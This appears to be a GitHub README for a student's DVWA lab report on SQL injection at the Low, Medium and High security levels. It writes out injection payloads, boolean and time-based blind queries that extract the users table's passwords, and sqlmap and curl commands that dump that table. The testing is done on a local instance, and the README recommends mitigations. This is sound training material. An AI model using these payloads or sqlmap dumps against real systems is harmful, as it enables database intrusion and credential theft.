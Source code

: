 DVWA — SQL Injection Labs (Task 15) — Report

Short description
This repository contains my Task 15 report for the DVWA SQL Injection labs (Low, Medium, High). It documents steps taken, commands used, evidence (screenshots / output files), and recommended mitigations. The report is intended for learning / lab purposes only — do not use these techniques against systems you do not own or have explicit permission to test.

Contents

report/ — The written report (PDF / DOCX / Markdown) and screenshots.

evidence/ — sqlmap output, curl timing tests, redacted logs (sensitive values removed).

notes/ — auxiliary notes, sample payloads, and commands used.

README.md — this file.

(If your repo layout is different, update these paths accordingly.)

Environment

DVWA host: http://127.0.0.1/DVWA/ (local VM)

DVWA changelog: v1.9 (changelog shows v1.10 Not Yet Released)

Tools: Firefox, Burp Suite (optional), sqlmap (1.9.x), curl, MySQL/MariaDB, php (Apache/PHP stack)

User: lab environment; all testing performed on locally-hosted DVWA instance.

How to reproduce (high level)

These reproduce instructions assume you have a running DVWA instance on 127.0.0.1 and a valid session cookie if needed.

1. Prepare

Open DVWA → Setup → Create/Reset DB.

Log in as admin (or other test account).

Set security level to the target (Low / Medium / High) from the DVWA Security page.

2. Low (direct injection)

Manual payload (in id GET parameter):

?id=1' OR '1'='1' -- -


Example sqlmap:

sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=REDACTED" --level=5 --risk=3 --batch --dbs

3. Medium (select / POST)

Replace the select with an input (DevTools) or intercept/modify POST in Burp:

id=1 OR 1=1 -- -   # POST body: id=1 OR 1=1 -- -&Submit=Submit


Curl example:

curl -s -X POST -H "Cookie: PHPSESSID=REDACTED" \
  --data "id=1 OR 1=1 -- -&Submit=Submit" \
  "http://127.0.0.1/DVWA/vulnerabilities/sqli/"


sqlmap (POST):

sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/" \
  --data="id=1&Submit=Submit" --cookie="PHPSESSID=REDACTED" \
  -D dvwa -T users --dump --batch

4. High (blind — boolean/time)

Boolean example:

1' AND SUBSTRING((SELECT database()),1,1)='d' -- -


Time-based example (MySQL):

1' AND IF(SUBSTRING((SELECT password FROM users LIMIT 0,1),1,1)='a', SLEEP(5), 0) -- -


Force sqlmap to use time technique:

sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/" \
  --data="id=1&Submit=Submit" --cookie="PHPSESSID=REDACTED" \
  --technique=T --time-sec=5 --level=5 --risk=3 -D dvwa -T users --dump


Note: In my lab sqlmap succeeded but manual SLEEP() showed no measurable delay — see evidence/curl_time_test.txt and the report for analysis and reasons (SQLite backend, filtering, buffering, etc.).

##Findings — short summary

Low: direct injectable parameter; data extraction via UNION / boolean succeeded.

Medium: parameter moved to POST and uses a <select>, but injection is still possible by modifying the request (DOM edit, proxy, or crafted POST).

High: direct output blocked; sqlmap used blind techniques (boolean/time) to extract data. Manual SLEEP() payloads did not show an observable delay in my environment — likely due to backend settings or filtering — but boolean extraction worked.

##Conclusion & recommended mitigations

Root cause: unsanitized user data concatenated into SQL queries.

Recommendations:

Replace dynamic SQL concatenation with prepared statements / parameterized queries (PDO or mysqli prepared statements).

Rotate any test credentials exposed during the lab and restrict DB privileges (least privilege).

Add input validation, output encoding, and server-side WAF/rate-limiting.

Re-test after fixes using the same payloads and automated tools.

Contact

If you need clarifications or want the sanitized sqlmap/curl output adapted for inclusion in another report, open an issue or contact me via GitHub.
Note: Damn Vulnerable Web Application (DVWA) is third-party software created for security training. This repository does not claim ownership of DVWA itself. All materials here relate to my educational use of DVWA for lab exercises, testing, and reporting.

Disclaimer: All materials, commands, and scripts in this repository were created and executed strictly for educational purposes on a local lab instance under my control. Do not use these techniques against systems you do not own or have explicit written permission to test. The author accepts no liability for misuse. Sensitive values (cookies, passwords, keys) have been redacted; do not commit real credentials.

# Warning

**Warning:** These scripts and instructions are provided for educational use on a local lab environment only. Use at your own risk. The author accepts no responsibility or liability for any damage, loss, or legal consequences that may result from misuse or running these commands on systems you do not own or have explicit permission to test.

---

